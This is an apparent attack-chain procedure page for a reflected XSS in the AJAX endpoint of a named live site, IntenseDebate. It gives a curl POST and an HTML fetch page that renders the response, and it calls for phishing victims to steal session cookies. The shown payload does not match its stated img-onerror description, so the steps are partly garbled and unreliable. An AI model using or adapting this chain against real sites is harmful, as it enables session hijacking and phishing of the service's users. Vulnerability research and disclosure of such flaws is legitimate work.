

# Reflected XSS in IntenseDebate AJAX Endpoint for Cookie Theft

Multi-stage attack chain demonstrating exploitation of a reflected Cross-Site Scripting (XSS) vulnerability in the IntenseDebate AJAX endpoint to execute arbitrary JavaScript and steal user cookies.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with PHP backend
- Access to the target URL: https://www.intensedebate.com/ajax.php
- No authentication required for the endpoint

### Initial Access Requirements

- Network access to the internet
- Victim's browser to render the response (e.g., via phishing link)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload via POST Request
procedure: [[procedures/Exploit-Reflected-XSS-in-AJAX-Endpoint]]

**Objective**: Send a POST request to the vulnerable AJAX endpoint with an unsanitized 'txt' parameter containing a JavaScript payload to reflect and prepare for execution.

**Instructions**: Use [[commands/curl-post-xss-payload]] to submit the payload to the endpoint:

```bash
curl -X POST https://www.intensedebate.com/ajax.php -d "txt=azertyuiop<<>"
```

This crafts a reflected HTML injection using an img tag with an onerror handler to execute JavaScript.

**Expected Output**: The server responds with the reflected payload in the HTML body, without sanitization, ready for browser rendering.

**Success Indicators**:
- Response contains the injected payload verbatim
- No server-side errors blocking the request

### Step 2: Trigger Payload Execution and Observe Cookie Theft
procedure: [[procedures/Exploit-Reflected-XSS-in-AJAX-Endpoint]]

**Objective**: Render the response in a victim's browser to execute the JavaScript, triggering an alert with stolen cookies and enabling further attacks like phishing or CORS bypass.

**Instructions**: Load the response in an HTML file or via a phishing page that submits the POST and renders the output. For demonstration, create a simple HTML file (xss.html) that performs the POST and displays the response:

```html
<!DOCTYPE html>
<html>
<body>
<script>
fetch('https://www.intensedebate.com/ajax.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'txt=azertyuiop<<>'
})
.then(response => response.text())
.then(data => document.body.innerHTML = data);
</script>
</body>
</html>
```

Open xss.html in a browser targeting the victim's session. Alternatively, view a POC video (xss.mp4) showing the alert box.

**Expected Output**: An alert box pops up displaying the victim's document cookies upon rendering the reflected img tag.

**Success Indicators**:
- JavaScript alert executes showing cookies
- Potential for further exploitation like credential phishing

## Attack Chain Summary

### Key Achievements

1. Successful injection of arbitrary JavaScript via reflected XSS
2. Theft of session cookies for session hijacking
3. Enablement of phishing or CORS attacks to bypass origin policies

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
